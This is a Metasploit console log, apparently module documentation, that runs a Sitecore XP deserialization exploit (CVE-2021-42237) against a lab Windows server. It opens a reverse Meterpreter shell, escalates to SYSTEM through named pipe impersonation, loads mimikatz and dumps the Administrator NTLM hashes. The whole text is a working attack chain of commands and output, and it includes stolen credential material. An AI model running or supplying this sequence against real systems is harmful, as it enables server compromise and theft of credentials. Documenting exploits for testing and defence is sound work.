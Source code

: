 ```
msf6 exploit(windows/http/sitecore_xp_cve_2021_42237) > set LPORT 8342
LPORT => 8342
msf6 exploit(windows/http/sitecore_xp_cve_2021_42237) > exploit

[*] Started reverse TCP handler on 172.20.223.94:8342
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Response.ashx is accessible and appears to be deserializing data!
[*] Sending stage (200262 bytes) to 172.20.211.198
[*] Meterpreter session 1 opened (172.20.223.94:8342 -> 172.20.211.198:60958 ) at 2021-11-10 15:34:21 -0600

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter > getsystem -t 4
...got system via technique 4 (Named Pipe Impersonation (RPCSS variant)).
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain           NTLM                         SHA1
--------       ------           ----                         ----
Administrator  WIN-86UKQGF31O1  a25d8e40dd22b52d59757645eae  3f2aa15db1577eb28de9adde8b02
                                5b98e                        2d4d8c042b67

wdigest credentials
===================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
Administrator     WIN-86UKQGF31O1  (null)
WIN-86UKQGF31O1$  WORKGROUP        (null)

kerberos credentials
====================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
Administrator     WIN-86UKQGF31O1  (null)
MSSQL$SQLEXPRESS  NT Service       (null)
win-86ukqgf31o1$  WORKGROUP        (null)


meterpreter > sysinfo
Computer        : WIN-86UKQGF31O1
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
```